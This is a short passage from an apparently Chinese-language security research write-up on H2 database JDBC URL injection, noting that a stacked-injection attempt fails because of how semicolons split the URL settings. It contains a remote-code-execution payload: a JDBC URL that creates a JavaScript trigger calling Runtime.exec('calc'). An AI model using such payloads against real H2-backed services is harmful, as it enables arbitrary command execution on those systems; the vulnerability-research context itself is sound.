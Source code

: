 ![image-20230811102607809](./../.gitbook/assets/image-20230811102607809.png)

开始尝试堆叠注入

### 坑：semicolon分割之痛

```
jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;CREATE TRIGGER TRIG_JS BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
Java.type("java.lang.Runtime").getRuntime().exec("calc")$$--
```

这个payload并不能打通，还得看它是怎么提取setting参数的

`org.h2.engine.ConnectionInfo#readSettingsFromURL` 这个类用于存储连接信息
